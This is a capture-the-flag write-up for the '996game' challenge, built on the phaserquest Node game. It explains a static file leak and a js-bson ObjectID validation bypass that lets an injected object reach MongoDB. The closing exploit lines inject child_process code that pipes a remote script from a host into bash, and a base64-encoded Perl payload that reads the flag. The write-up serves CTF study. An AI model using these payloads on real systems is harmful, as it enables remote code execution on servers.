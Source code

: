 ### 996game

#### OrZ

This challenge is temporarily made in the afternoon before the CTF game(From findding bugs to challenges). So there are some rushes in this challenge , please bear with me.

#### writeup

First we can find hint from HTML source code.

![](https://i.imgur.com/yCKELtI.png)

It's an open-source HTML5 game. 

https://github.com/Jerenaux/phaserquest

We can see there is a static file leak vulnerability

https://github.com/Jerenaux/phaserquest/blob/master/server.js#L44

```javascript
app.use('/css',express.static(__dirname + '/css'));
app.use('/js',express.static(__dirname + '/js'));
app.use('/assets',express.static(__dirname + '/assets'));
```
![](https://i.imgur.com/2isT1nn.png)

Now, we need to find a way to get mongodb error.

Only one thing we can control is id, so we can track the `ObjectId()` function.

https://github.com/mongodb/js-bson/blob/V1.0.4/lib/bson/objectid.js#L28

```javascript
...

var valid = ObjectID.isValid(id);

...

ObjectID.isValid = function isValid(id) {
  if(id == null) return false;

  if(typeof id == 'number') {
    return true;
  }

  if(typeof id == 'string') {
    return id.length == 12 || (id.length == 24 && checkForHexRegExp.test(id));
  }

  if(id instanceof ObjectID) {
    return true;
  }

  if(id instanceof _Buffer) {
    return true;
  }

  // Duck-Typing detection of ObjectId like objects
  if(id.toHexString) {
    return id.id.length == 12 || (id.id.length == 24 && checkForHexRegExp.test(id.id));
  }

  return false;
};

```
Now we can use `id = {"id":{"length":12}}` bypass it.

```javascript
...

  if(!valid && id != null){
    throw new Error("Argument passed in must be a single String of 12 bytes or a string of 24 hex characters");
  } else if(valid && typeof id == 'string' && id.length == 24 && hasBufferType) {
    return new ObjectID(new Buffer(id, 'hex'));
  } else if(valid && typeof id == 'string' && id.length == 24) {
    return ObjectID.createFromHexString(id);
  } else if(id != null && id.length === 12) {
    // assume 12 byte string
    this.id = id;
  } else if(id != null && id.toHexString) {
    // Duck-typing to support ObjectId from different npm packages
    return id;
  } else {
    throw new Error("Argument passed in must be a single String of 12 bytes or a string of 24 hex characters");
  }
...
```
Now , we change our payload to 
`id = {"length":0,"toHexString":true,"id":{"length":12}},`

And then the whole payload will be sent to mongodb server.

```javascript
MongoDB shell version: 2.6.10
connecting to: test
> db.a.find({"b":{"$gt":1,"c":"d"}})
error: {
	"$err" : "Can't canonicalize query: BadValue unknown operator: c",
	"code" : 17287
}

```

So the whole exploit is

```javascript
Client.socket.emit('init-world',{new:false,id:{"$in":[1],"require('child_process').exec('/usr/bin/curl host/shell2|bash')":"bbb","length":0,"toHexString":true,"id":{"length":12}},clientTime:"sacsaccsacsac"});
```
Or:
```javascript
Client.getPlayerID =  () => ({ "$gt":1,[`process.chdir('/');socket.emit('aaa');socket.emit(require('child_process').execSync('sh -c \"echo \\\'dXNlIHN0cmljdDsKdXNlIElQQzo6T3BlbjM7CgpteSAkcGlkID0gb3BlbjMoXCpDSExEX0lOLCBcKkNITERfT1VULCBcKkNITERfRVJSLCAnL3JlYWRmbGFnJykgb3IgZGllICJvcGVuMygpIGZhaWxlZCAkISI7CgpteSAkcjsKCiRyID0gPENITERfT1VUPjsKcHJpbnQgIiRyIjsKJHIgPSA8Q0hMRF9PVVQ+OwpwcmludCAiJHIiOwokcj1ldmFsICIkciI7CnByaW50ICIkclxuIjsKcHJpbnQgQ0hMRF9JTiAiJHJcbiI7CiRyID0gPENITERfT1VUPjsKcHJpbnQgIiRyIjsKJHIgPSA8Q0hMRF9PVVQ+OwpwcmludCAiJHIiOw==\\\'|base64 -d | perl \"'));`]:"bb", toHexString: 'aaa', length: 0, id: {length: 12}})
```
